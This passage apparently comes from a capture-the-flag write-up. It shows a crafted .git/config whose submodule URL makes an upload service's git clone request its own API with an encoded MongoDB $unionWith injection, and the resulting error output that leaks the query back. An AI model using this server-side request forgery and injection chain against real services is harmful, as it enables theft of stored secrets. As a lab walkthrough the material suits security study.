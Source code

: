 `config` file.  

```
└─$ cat .git/config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        email = x@x.x
        name = x
[http "http://127.0.0.1:5000/"]
        extraHeader = Pragma: stderr
        extraHeader = X-Forwarded-For: 127.0.0.1
[http]
        transferstderr = true
        saveBody = true

[submodule "pwn"]
        active = true
        url = http://127.0.0.1:5000/api/search?debug=true&filter=%7B%22%24facet%22%3A%7B%22p%22%3A%5B%7B%22%24unionWith%22%3A%7B%22coll%22%3A%22config%22%2C%22pipeline%22%3A%5B%7B%22%24match%22%3A%7B%22type%22%3A%22flag%22%7D%7D%2C%7B%22%24project%22%3A%7B%22_id%22%3A0%2C%22fatal%3A%22%3A%7B%22%24concat%22%3A%5B%22%20%22%2C%22%24value%22%5D%7D%7D%7D%5D%7D%7D%5D%7D%7D&pad=
        update = checkout
```

`ZIP` the directory and upload it.  

<br/> 
<img src="/Screenshots_L3AK/bountyhunter_screenhots/Pasted image 20250715143350.png" alt="1" style="width:700px; height:auto;">
<br/>  

We get this error.  

```js
{"error":"Git submodule update failed: Cloning into '/app/uploads/687636d3f9b3896cbd0103d6/extracted_gitbad_exploitOLD/gitbad-ssrf/pwn'...\nfatal: http://127.0.0.1:5000/api/search?debug=true&filter={"$facet":{"p":[{"$unionWith":{"coll":"config","pipeline":[{"$match":{"type":"flag"}},{"$project":{"_id":0,"fatal:":{"$concat":[" ","$value"]}}}]}}]}}&pad=/info/refs not valid: is this a git repository?\nfatal: clone of 'http://127.0.0.1:5000/api/search?debug=true&filter={"$facet":{"p":[{"$unionWith":{"coll":"config","pipeline":[{"$match":{"type":"flag"}},{"$project":{"_id":0,"fatal:":{"$concat":[" ","$value"]}}}]}}]}}&pad=' into submodule path '/app/uploads/687636d3f9b3896cbd0103d6/extracted_gitbad_exploitOLD/gitbad-ssrf/pwn' failed\nFailed to clone 'pwn'. Retry scheduled\nCloning into '/app/uploads/687636d3f9b3896cbd0103d6/extracted_gitbad_exploitOLD/gitbad-ssrf/pwn'...\nfatal: http://127.0.0.1:5000/api/search?debug=true&filter={"$facet":{"p":[{"$unionWith":{"coll":"config","pipeline":[{"$match":{"type":"flag"}},{"$project":{"_id":0,"fatal:":{"$concat":[" ","$value"]}}}]}}]}}&pad=/info/refs not valid: is this a git repository?\nfatal: clone of 'http://127.0.0.1:5000/api/search?debug=true&filter={"$facet":{"p":[{"$unionWith":{"coll":"config","pipeline":[{"$match":{"type":"flag"}},{"$project":{"_id":0,"fatal:":{"$concat":[" ","$value"]}}}]}}]}}&pad=' into submodule path '/app/uploads/687636d3f9b3896cbd0103d6/extracted_gitbad_exploitOLD/gitbad-ssrf/pwn' failed\nFailed to clone 'pwn' a second time, aborting","success":false}
```

